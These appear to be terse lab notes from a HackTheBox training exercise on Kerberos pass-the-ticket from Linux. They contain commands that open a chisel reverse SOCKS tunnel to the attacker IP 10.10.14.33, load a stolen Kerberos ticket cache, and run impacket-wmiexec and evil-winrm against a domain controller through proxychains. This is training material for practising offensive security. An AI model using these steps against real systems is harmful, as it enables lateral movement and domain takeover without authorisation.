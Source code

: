 #### Installing Kerberos Authentication Package
```shell-session
sudo apt-get install krb5-user -y
```
```shell-session
cat /etc/krb5.conf
```


https://github.com/jpillora/chisel
https://github.com/haad/proxychains
![[Pasted image 20240916115034.png]]


![[Pasted image 20240916115110.png]]
```shell-session
cat /etc/hosts
```

![[Pasted image 20240916115250.png]]
```shell-session
cat /etc/proxychains.conf
```


![[Pasted image 20240916115339.png]]
```cmd-session
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

![[Pasted image 20240916115554.png]]
```shell-session
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I13
```

![[Pasted image 20240916115601.png]]
```shell-session
proxychains impacket-wmiexec dc01 -k
```

```shell-session
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

